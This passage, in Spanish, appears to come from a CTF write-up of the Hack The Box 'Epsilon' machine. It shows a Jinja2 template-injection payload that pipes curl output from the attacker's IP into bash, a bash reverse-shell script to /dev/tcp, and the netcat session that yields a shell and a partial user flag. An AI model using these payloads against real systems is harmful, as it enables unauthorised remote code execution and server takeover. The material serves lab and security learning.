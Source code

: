 ![SSTI to RCE](./4.png)

Para obtener una **reverse shell** usaremos este payload:

```python wrap=false
{{ namespace.__init__.__globals__.os.popen('curl 10.10.14.15|bash').read() }}
```

Y en nuestra máquina levantaremos un servidor HTTP con python con este `index.html`:

```bash wrap=false
#/bin/bash

bash -i >& /dev/tcp/10.10.14.15/444 0>&1
```

Y la obtendremos:

```bash wrap=false
❯ sudo nc -lvnp 444
listening on [any] 444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.134] 48284
bash: cannot set terminal process group (953): Inappropriate ioctl for device
bash: no job control in this shell
tom@epsilon:/var/www/app$ cd /home
cd /home
tom@epsilon:/home$ ls 
ls
tom
tom@epsilon:/home$ cd tom
cd tom
tom@epsilon:~$ ls
ls
user.txt
tom@epsilon:~$ cat user.txt
cat user.txt
7e93e969d7c04d9ab96...
```
